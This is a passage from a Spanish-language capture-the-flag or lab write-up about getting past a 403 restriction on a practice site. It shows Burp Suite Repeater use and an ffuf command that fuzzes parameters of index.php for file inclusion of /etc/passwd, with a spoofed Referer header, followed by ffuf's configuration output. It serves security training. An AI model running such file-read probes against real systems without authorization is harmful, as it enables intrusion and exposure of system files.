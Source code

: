 Vamos a enviar esta peticion el `Repeater` de `BurpSuite` haciendo `Ctrl+R`, una vez enviado le daremos a `send` y veremos que nos devuelve una respuesta de `200 OK` por lo que ha funcionado:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-10 114703.png" alt=""><figcaption></figcaption></figure>

Ahora vamos a realizar un poco de `fuzzing` poniendo en la cabecera de la peticion el `Referer` y con el recurso web llamado `index.php` que es el que hemos visto antes, como tiene `.php` vamos a comprobar si tuviera algun parametro vulnerable.

## FFUF

```shell
ffuf -u "http://bypass403.pw/index.php?FUZZ=/etc/passwd" -w <WORDLIST> -H "Referer: http://bypass403.pw" -fs 1192
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bypass403.pw/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : Referer: http://bypass403.pw
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1192
________________________________________________

```